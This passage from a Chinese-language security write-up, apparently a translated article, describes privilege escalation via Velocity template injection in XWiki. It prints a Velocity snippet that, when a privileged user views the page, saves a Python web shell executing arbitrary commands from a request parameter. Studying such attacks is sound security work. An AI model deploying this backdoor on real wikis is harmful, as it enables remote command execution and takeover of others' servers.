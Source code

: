 换句话来说，XWiki不仅支持Velocity，也支持Groovy和Python这种没有沙盒的脚本。然而这种操作需要programming权限。这是个好事，因为它把提权转变成了任意代码执行。由于我们只能使用Velocity，我们必须使用XWiki API。

$doc类又一些很有趣的方法，聪明的读者可能会发现一个缺陷：

![pic12](http://drops.javaweb.org/uploads/images/c7d6dfd7c7bd30426b7e5119601ec7bf932a561f.jpg)

一个wiki页面的内容作者是最后一个编辑它的用户。`save`方法和`saveAsAuthor`方法的不同说明，`save`方法不会用作者身份保存内容，而是用当前访问页面用户的身份。换句话说，一个低权限用户可以创建一个wiki页面，当拥有programming权限的用户查看并且编辑保存这个页面的时候脚本就会执行。我们来注入下面这个Python后门：

```
from subprocess import check_output 
q = request.get('q') or 'true'
q = q.split(' ') 
print ''+check_output(q)+'' 

```

我们只需要添加一些代码来获取管理员的权限：

```
innocent content 
#if( $doc.hasAccessLevel("programming") ) 
$doc.setContent(" 
innocent content 
from subprocess import check_output 
q = request.get('q') or 'true' 
q = q.split(' ') 
print ''+check_output(q)+'' 
") 
$doc.save() 
#end

```

当包含有这样内容的页面被一个有programming权限的用户查看的时候，后门会自动安装。之后所有访问这个页面的人都可以执行任意命令了：

![pic13](http://drops.javaweb.org/uploads/images/516b9b5278c9fb49e56918d122156eb336a27aa4.jpg)

0x03 后记
=======

* * *

作者提出的这种攻击思路还是很不错的，以前也了解这种模板文件可以用来执行任意代码，但是没有很深入的去思考进一步的利用方式，传统的攻击思路一般是获取后台管理员权限，然后利用上传等漏洞getshell，但其实后台编辑模板的功能很多时候就可以直接执行任意代码，经过测试大部分具有编辑模板功能的应用都存在类似问题，看来在攻击过程中对技术理解越透彻思路就越广。